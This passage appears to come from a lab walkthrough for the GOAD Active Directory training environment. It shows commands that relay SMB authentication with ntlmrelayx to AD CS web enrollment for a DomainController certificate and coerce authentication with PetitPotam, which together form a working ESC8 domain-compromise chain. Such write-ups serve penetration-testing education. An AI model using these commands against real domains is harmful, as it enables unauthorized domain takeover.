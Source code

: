 - The server ask for an authentication so all is fine :)

- Add a listener to relay SMB authentication to HTTP with impacket ntlmrelayx

```shell
ntlmrelayx.py -t http://192.168.56.23/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
```

- Launch the coerce with [petitpotam](https://github.com/topotam/PetitPotam) unauthenticated (this will no more work on an up to date active directory but other coerce methods authenticated will work the same)

```shell
petitpotam.py 192.168.56.1 meereen.essos.local 
```

![petitpotam_adcs.png](/assets/blog/GOAD/petitpotam_adcs.png)

- ntlmrelayx will relay the authentication to the web enrollement and get the certificate
